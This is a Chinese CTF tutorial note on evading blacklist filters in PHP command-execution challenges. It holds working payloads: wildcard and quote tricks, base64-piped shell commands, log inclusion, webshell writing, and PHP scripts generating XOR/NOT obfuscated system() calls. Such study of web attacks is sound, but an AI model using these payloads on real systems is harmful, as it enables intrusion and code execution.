





## 通配符

使用通配符绕过黑名单关键词，`?`表示匹配任意单个字符，`*`表示匹配任意多个字符

```php
# 查看当前目录f开头文件
tac f*
# 查看当前目录文件名类似 f?ag.p?p 的文件如flag.php
cat f?ag.p?p
less f*
more f*
```

## php函数执行命令

system函数会将参数字符串作为系统命令执行

```shell
system("ls")
```

类似功能函数，eval，passthru，assert，exec，shell_exec，pre_match，create_function等等

可以看这些函数的具体用法[PHP敏感函数](https://blog.csdn.net/FINYIE/article/details/128284692)

## 逃逸

```php
# 检测函数waf()
eval(waf($_GET[cmd]));
```

题目对传参的变量要求很严格但没有严格过滤时，可以尝试逃逸

```plaintext
# 命令逃逸  
?cmd=$_GET[a]($_GET[b]);&a=assert&b=phpinfo()  
日志包含  
?cmd=include$_GET[1];&1=/var/log/apache2/access.log  
# 伪协议读文件
?cmd=include$_GET[1];&1=php://filter/convert.base64-encode/resource=index.php
# 其他
```

## 反引号执行命令  

PHP中反引号中字符串会作为命令执行，但是没有回显，反引号执行命令实际是调用的shell_exec函数。

```php
`id`;
```

对于没有回显的RCE，善用一些带有文件操作的命令如`cp`,`mv`,`tee`,`>`等，比如可以把 /flag 文件复制到 web 目录直接访问读取，或者把 php 文件复制一份 txt 在 web 目录可以看到具体的源码，还可以使用 `>` 重定向符合写入webshell

## 拼接

linux环境下，命令可以使用变量拼接，绕过关键词的过滤。

```bash
a=l;b=s;$a$b;
```



## 空格绕过

```url
%09     # tab的url编码
%0a     # 换行url编码
${IFS}  # bash中的分隔符，空格，tab，换行符
$IFS    # 同上
$IFS$9  # 同上
<       # 重定向
>      # 重定向
{命令,参数} # 例如，{ls,/} 
```

大多数时候web题目的基础镜像可能会使用`Apline Linux`减小容器体积，shell环境比较基础，<，<>重定向不能和通配符？问题症状和解决方案可以看[刷题疑问-web容器环境](/pages/47314c/)

`%09`，`%0A` tab和换行的url编码在 web 服务器接收时会自动做一次 url 解码为 ` `、`    `，不会因为过滤字母或数字而失效

## 转义绕过

在一些时候出题人，可能只做了简单的关键词匹配时，你或许可以通过转义字符绕过(这里转义字符一定不要有实际转义)，可以在终端尝试验证，在加上反斜杠后不会转义的字符前加上反斜杠，例如，l，c没有实际意义的转义，所以转义后还是本身  

payload：c=system("ta\c f\lag.php");

```php
$c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
```

## 单双引号

在 linux 的shell中，相邻的字符串（包括单引号、双引号、无引号片段）会在解析阶段被自动拼接成一个整体，然后再作为命令名或参数。

```bash
p''w''d
pw""d
l''s
l""s
```

最终都会被 Shell 解析成：

```bash
pwd
ls
```

然后正常执行



## bash ANSI-C转义

`$'\ooo'` 是 Bash 的 ANSI-C 转义语法，Bash 在解析阶段，会对引号内的转义序列进行展开，生成对应的字符并执行。

可以借助探姬的[bashfuck](https://github.com/ProbiusOfficial/bashFuck)这个项目直接生成可用payload

ls命令的八进制ASCII码是：154 163，十六进制ASCII码是：6c 73，unicode是：\u006c\u0073

```bash
# 八进制 ls
$'\154\163'
# 十六进制 ls
$'\x6c\x73'
# unicode ls
$'\u006c\u0073'
```



## bash花括号
    
bash shell中可以使用{命令,参数}语法执行命令

```bash
{ls,/}
```

alpine linux默认使用的ash（busybox sh）不支持该语法



## bin目录下工具

在代码执行限制时，后期练习可能ban掉所有字母，如果数字，通配符？和斜杠/还能用，可以使用bin目录下带数字的工具，例如/bin/base64

```bash
/???/????64${IFS}????.???
```

## 编码，管道符

在命令行使用ls的base64编码执行，绕过黑名单关键词

```bash
echo bHM=|base64 -d|sh
```

解析：  
- 1.通过输出流echo打印base64编码，传递给管道符的第二部分
- 2.base64进行解码，得到原始命令'ls'，传递给第三部分
- 3.sh在命令行中执行这个原始命令



在空格被ban时，可以使用${IFS}，$IFS，$IFS$9填充空格

```bash
echo$IFSbHM=|base64$IFS$9-d|sh
```

无字母数字RCE


## 取反

测试，8.x版本好像不行

```php
<?php
# 测试用
$cmd = "phpinfo";
echo "(~" . urlencode(~$cmd). ")();";
echo "\n";
# (~%8F%97%8F%96%91%99%90)();

# 构造
$func = "assert";
$params = "system('whoami')";
# 取反
$func = "(~" . urlencode(~$func) . ")";
$params = "(~" . urlencode(~$params) . ");";
echo $func . $params;
```

## 自增

参考：

[无字母数字rce总结（自增、取反、异或、或、临时文件上传）](https://blog.csdn.net/whale_waves/article/details/136365419)

## 异或

PHP 中，两个字符串做运算（如异或、取反）是逐字节进行的。通过非字母数字字符的运算组合，可以构造出任意字母数字字符串。异或构造无字母数字rce脚本

```php
<?php  
function x0r() {
    $results = [];

    for ($x = 128; $x <= 255; $x++) {
        for ($y = 128; $y <= 255; $y++) {
            $result = $x ^ $y;

            if ($result >= 32 && $result <= 126) {
                $results[] = [
                    'char' => chr($result),
                    'expr' => "'%" . dechex($x) . "'^'%" . dechex($y) . "'"
                ];
            }
        }
    }

    return $results;
}
# 替换
function rep1ace($arr, $str2x0r) {
    foreach ($arr as $entry) {
        if ($entry['char'] === $str2x0r) {
            return "(" . $entry['expr'] . ").";
        }
    }
    return null;
}

# 拼接
function andword($payload, $x0rResults) {
    $result = '';
    
    foreach (str_split($payload) as $char) {
        $expr = rep1ace($x0rResults, $char);
        if ($expr) {
            $result .= $expr;
        } else {
            $result .= $char;
        }
    }

    return $result;
}
# 异或获取可见字符
$res = x0r();

$func = "assert";
$params = "system('whoami')";
# 分别处理替换
$func = andword($func, $res);
$params = andword($params, $res);
if (substr($func, -1) === '.') {
    $func = rtrim($func, '.');
}
if (substr($params, -1) === '.') {
    $params = rtrim($params, '.');
}
$payload = "($func)" . "($params);";
echo "Payload: " . $payload . "\n";
?>
```


参考：

[无字母rce](https://blog.csdn.net/m0_64180167/article/details/134971320)  

[RCE篇之无数字字母rce](https://arsenetang.github.io/2021/07/28/RCE%E7%AF%87%E4%B9%8B%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97rce/)  
[CTF—命令执行总结](https://blog.csdn.net/qq_45927819/article/details/109671655#PATH_107)  